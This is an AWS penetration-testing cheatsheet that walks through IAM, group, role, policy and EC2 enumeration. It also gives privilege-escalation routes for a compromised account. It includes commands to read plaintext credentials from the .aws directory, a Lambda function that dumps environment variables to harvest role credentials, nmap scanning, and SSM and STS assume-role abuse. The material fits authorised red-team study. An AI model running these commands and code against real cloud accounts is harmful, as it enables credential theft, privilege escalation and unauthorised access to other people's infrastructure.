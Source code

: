 ## AWS cheatsheet
- Create long term access with access key ID + secret key (you will be prompted to enter the values after the command runs)
```
aws configure --profile PROFILE_NAME
```
- Get configured identity information
```
aws sts get-caller-identity --profile PROFILE_NAME
```
- Set environment variables and configure identity (access key ID + secret key + session token)
```
set AWS_ACCESS_KEY_ID=KEY
set AWS_SECRET_ACCESS_KEY=SECRET_KEY
set AWS_SESSION_TOKEN=TOKEN
aws configure
```
- Local credentials are stored in `/home/USERNAME/.aws` on Linux and `C:\Users\USERNAME\.aws` on Windows. `cat credentials` under either of the directories to get plaintext credentials.

### User enumeration
- List all IAM users
```
aws iam list-users
```
- List a specific user's IAM groups
```
aws iam list-groups-for-user --user-name USERNAME
```
- List a specific user's attached managed IAM policies
```
aws iam list-attached-user-policies --user-name USERNAME
```
- List a specific user's attached inline IAM policies
```
aws iam list-user-policies --user-name USERNAME
```

### Group enumeration
- List all IAM groups
```
aws iam list-groups
```
- List a specific group's attached managed IAM policies
```
aws iam list-attached-group-policies --group-name GROUPNAME
```
- List a specific group's attached inline IAM policies
```
aws iam list-group-policies --group-name GROUPNAME
```

### Role enumeration
- List all IAM roles
```
aws iam list-roles
```
- List a specific role's attached managed IAM policies (useful when a federated user is compromised) 
```
aws iam list-attached-role-policies --role-name ROLENAME
```

- List a specific role's inline managed IAM policies (useful when a federated user is compromised) 
```
aws iam list-role-policies --role-name ROLENAME
```

### Policy enumeration
- List all IAM policies
```
aws iam list-policies
```
- Get a specific managed policy's information
```
aws iam get-policy --policy-arn POLICYARN
```

- List a specific policy's version information
```
aws iam list-policy-versions --policy-arn POLICYARN
```
- Get the information of a version of a specific policy
```
aws iam get-policy-version --policy-arn POLICYARN --version-id VERSIONID
```
- Get a specific user/group/role's inline policy document (use the last one with federated users)
```
aws iam get-user-policy --user-name USERNAME --policy-name POLICYNAME
aws iam get-group-policy --group-name GROUPNAME --policy-name POLICYNAME
aws iam get-role-policy --role-name ROLENAME --policy-name POLICYNAME
```

### EC2 instance enumeration
- List all EC2 instances for a specific region
```
aws ec2 describe-instances --region REGION
```
- Scan the external IP address of EC2 instances with `nmap`
```
nmap -sS -Pn IP1,IP2,IP3
```
### Enumeration for initial foothold
- Use cloud_enum to enumerate the organization
```
./cloud_enum.py -k ORGNAME
```
- Use `pacu` for advanced enumeration (an other activities) with credentials. Specifically the `iam__privesc_scan` script.

### Privilege escalation via lambda functions
- If the compromised account has access to create lambda functions and `iam:PassRole` privileges then a lambda function with high privileges can be created
- Store the following code in a file and name it `lambda_function.py`
```
import json
import subprocess

def lambda_handler(event, context):
    data = subprocess.Popen('env', stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True)
    output, errors = data.communicate()
    return {
        'statusCode': 200,
        'body': json.dumps(output)
    }
```
- Zip the file in an archive and run the following command
```
aws lambda create-function --function-name privesc-fun --runtime python3.7 --zip-file fileb://my-function.zip --handler lambda_function.lambda_handler --role ROLEARN --region REGION --profile PROFILE
```
- List lambda functions to confirm the function was created
```
aws lambda list-functions
```
- Run the function to obtain short-lived credentials
```
aws lambda invoke --function-name "privesc-fun" --log-type Tail output.txt --region REGION --profile PROFILE
```

### Privilege escalation via SSM
- If the compromised account has `ssm:*` access then it has access to VMs and EC2 instances without needing a public IP address, SSH keys or username/password combinations
- Start a session in an EC2 instance
```
aws ssm start-session --target INSTANCE_ID --profile PROFILE --region REGION
```
- Enumerate the EC2 instance's role
```
aws sts get-caller-identity
```
- Continue enumeration and repeat the enumeration commands at the top of this document

### Privilege escalation via STS
- If the compromised account has `sts:*` privileges then you can assume roles
- Enumerate the existing roles and check for the `sts:AssumeRole` action for the role you currently hold
- Assume the role found and get a short-lived credential set
```
aws sts assume-role --role-arn FOUNDROLEARN --role-session-name SOMENAME
```
